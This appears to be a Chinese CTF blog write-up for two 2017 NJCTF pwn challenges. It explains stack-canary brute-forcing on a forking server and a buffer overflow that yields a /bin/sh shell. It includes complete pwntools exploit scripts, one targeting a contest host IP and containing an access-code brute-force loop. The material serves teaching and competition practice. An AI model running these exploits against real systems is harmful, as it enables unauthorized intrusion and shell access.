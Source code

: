 ```yaml
---
title: 2017NJCTF PWN
tags:
  - PWN
categories: []
date: 2017-03-14 22:04:51
---
```


## messager

`fork`，出来的进程基本上和原进程完全一样，包括`canary`和`ebp`。爆破`canary`，得到值后跳转到`0x400BC6`。因为程序已经将`flag`加载到内存中了，这里的代码将内存中的`flag`发过来。

**说几个因为太菜的坑吧。。**

1. `pwntools`的`sendline`会在最后添加上`\x0a`，而`send`会直接把数据发过去，我一度以为`\x0a`是发送结尾的标配以至于不能爆破。。
2. 关于linux的僵尸进程，`kill`是杀不掉的。。`kill -9 PID`可以杀掉，`killall name`可以杀掉包括进程簇，`pstree`或者`ps auxt`可以查看进程树。`defeunc`进程如果没有父进程的话。。**重启吧Orz**

### exp

```
from pwn import *
import os, sys

DEBUG = 0

elf = ELF('./messager')

if DEBUG:
    context(log_level='debug')
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

def do_canary():
    canary = '\x00'
    off = 'a' * 104
    while (len(canary)) != 8:
        for i in range(256):
            p = remote('127.0.0.1', 5555)
            p.recvuntil('Welcome!\n')
            t = chr(i)
            try:
                print 'sending....', i
                p.send(off + canary + t)
                line = p.recvline()
                if 'Message' in line:
                    p.close()
                    canary += t
                    break
            except Exception, e:
                print e
                p.close()
                continue
    return canary

if __name__ == '__main__':
    canary = do_canary()
    p = remote('127.0.0.1', 5555)
    p.recvuntil('Welcome!')
    payload = 'a' * 104 + canary + p64(0) + p64(0x400BC6)
    p.send(payload)
    print p.recvall()
    p.close()

```

## vsvs

程序应该是调用的`system("echo input")`，这样的函数，也就是说如果想办法让程序执行`system("/bin/sh)`那么就可以得到`shell`了。然而到现在我都还没搞懂这个程序的运行原理，存在`read`的栈溢出为什么就可以绕过过滤执行命令了呢。是覆盖了之前写的`input`里的值了么

流程
```
ubuntu@VM-250-199-ubuntu:~/ctf-problem/2017njctf/pwn/vsvs$ nc 218.2.197.235 23749 
VSVS: Very Secure VPN Server
Please input access code:
22
Command: echo <input>
input:
aaa
What's your name?bbb
aaa
```

在`What's your name?`后存在栈溢出，猜测是超出缓冲区长度，覆盖了`input`中存在检查的值了

exp:
```
from pwn import *

'''
for i in range(10000000):
    try:
        p = remote('218.2.197.235', 23749)
        p.recvuntil('code:\n')
        print 'sendling.... ', i
        p.sendline(str(i))
        a = p.recvline()
        if 'Wrong' in a:
            p.close()
            continue
        else:
            print 'code is => ', i
            break
    except Exception, e:
        continue
'''

p = remote('218.2.197.235', 23749)
exp = 'a' * 1024 + '/bin/sh'
p.sendlineafter('code:\n', '22')
p.sendlineafter('input:\n', '1')
p.sendlineafter('?', exp)
p.interactive()
```